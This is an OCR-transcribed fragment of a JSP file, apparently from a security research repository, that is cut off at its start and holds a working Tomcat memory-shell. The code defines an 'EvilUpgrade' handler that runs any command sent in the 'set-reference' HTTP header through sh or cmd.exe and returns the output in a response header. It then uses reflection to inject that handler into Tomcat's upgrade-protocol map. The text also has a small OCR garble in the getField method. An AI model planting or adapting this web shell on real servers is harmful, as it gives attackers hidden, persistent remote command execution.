 ```jsp
    }

    @Override
    public Processor getProcessor(SocketWrapperBase<?> socketWrapper, Adapter adapter) {
      return null;
    }

    @Override
    public InternalHttpUpgradeHandler getInternalUpgradeHandler(Adapter adapter, Request request) {
      return null;
    }

    @Override
    public boolean accept(Request request) {
      String cmd = request.getHeader("set-reference");
      try {
        if (cmd != null) {
          boolean isLinux = true;
          String osType = System.getProperty("os.name");
          if (osType != null && osType.toLowerCase().contains("win")) {
            isLinux = false;
          }

          String[] commands = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
          InputStream inputStream = Runtime.getRuntime().exec(commands).getInputStream();
          Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
          String output = scanner.hasNext() ? scanner.next() : "";

          Response response = (Response) getField(request, "response");
          response.addHeader("set-message", new String(output.getBytes(), StandardCharsets.UTF_8));
        }
      } catch (Exception e) {
        e.printStackTrace();
      }
      return false;
    }
  }

  public Object getField(Object obj, String field) {
    Class clazz = obj.getClass();
    while (clazz != Object.class) {
      try {
        Field declaredField = clazz.getDeclaredField(field);
        declaredFie declaredFie
ld.setAccessible(true);
        return declaredField.get(obj);
      } catch (Exception e) {
        clazz = clazz.getSuperclass();
      }
    }
    return null;
  }
%>

<%
  Object request1 = getField(request, "request");
  Connector connector = (Connector) getField(request1, "connector");
  Http11NioProtocol protocolHandler = (Http11NioProtocol) getField(connector, "protocolHandler");
  HashMap httpUpgradeProtocols = (HashMap) getField(protocolHandler, "httpUpgradeProtocols");
  httpUpgradeProtocols.put("H3rmesk1t", new EvilUpgrade());
  response.getWriter().println("Upgrade Inject Successfully...");
%>
```